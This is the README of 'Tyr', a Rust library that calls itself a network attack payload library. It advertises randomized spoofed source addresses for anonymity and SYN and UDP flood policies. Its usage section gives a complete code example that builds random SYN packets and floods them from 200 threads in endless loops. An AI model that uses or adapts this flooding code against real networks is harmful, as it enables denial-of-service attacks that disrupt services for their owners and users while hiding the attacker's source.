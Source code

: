 # Tyr

Tyr is a high-performance, cross-platform and all-protocol network combat attack payload and policy library.

## Features

- **Payload Generation**: Easily generate packets with customizable source and destination IP addresses, ports, and network interfaces.
- **Randomization**: Support for generating random IP addresses and ports for increased anonymity.
- **Multi-Threading**: Utilize multiple threads to send packets simultaneously, increasing the attack speed.
- **Datalink Layer**: Support for sending packets over the datalink layer, allowing for more advanced network attacks.
- **Network Combat Policy**: Support for launch network combat policies, including SYN flood, UDP flood, and more.
- **Error Handling**: Robust error handling to ensure smooth operation and informative error messages.

## Getting Started

### Prerequisites

- Rust programming language
- _WinPcap for Windows users_

### Installation

To use Tyr in your Rust project, add `tyr` to your `Cargo.toml` file.

Then, run `cargo build` to build your project.

## Usage

Here's a simple example of how to use Tyr to send SYN packets:

```rust
use pnet::datalink;
use tyr::error::Error;
use tyr::payload::Payload;

fn main() -> Result<(), Error> {
    tyr::rerun_if_not_root()?;

    let interface = tyr::interface::get_interface("wlo1").ok_or(Error::InterfaceNotFound)?;

    let mut payload = tyr::payload::syn::SYNPayload::random(&interface);
    let mut packet = [0u8; 52];
    payload.build(&mut packet)?;

    let mut handles = vec![];
    for _ in 0..200 {
        let interface = interface.clone();
        if let datalink::Channel::Ethernet(mut tx, _) =
            datalink::channel(&interface, Default::default())?
        {
            let handle: std::thread::JoinHandle<Result<(), Error>> =
                std::thread::spawn(move || loop {
                    tx.send_to(&packet, Some(interface.clone())).unwrap()?;
                });
            handles.push(handle);
        };
    }

    for handle in handles {
        handle.join().unwrap()?;
    }

    Ok(())
}
```

## Contributing

Contributions are very welcome! Please read our [Contributing Guidelines](CONTRIBUTING.md) for more information.

## License

This project is licensed under the AGPL-3.0 License by [@Noctisynth](https://github.com/noctisynth), org.
